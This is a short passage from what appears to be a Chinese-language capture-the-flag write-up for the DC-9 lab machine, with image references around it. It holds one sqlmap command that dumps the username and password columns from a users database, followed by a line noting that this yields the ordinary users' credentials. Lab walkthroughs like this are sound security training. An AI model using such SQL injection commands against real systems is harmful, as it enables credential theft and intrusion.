 ```bash
sqlmap -r dc9.txt -D users -T UserDetails -C username,password  --dump
```

得到需用普通用户的用户名和密码

<img src="./imgs/image-20230811200105389.png" alt="image-20230811200105389" style="zoom:33%;" />
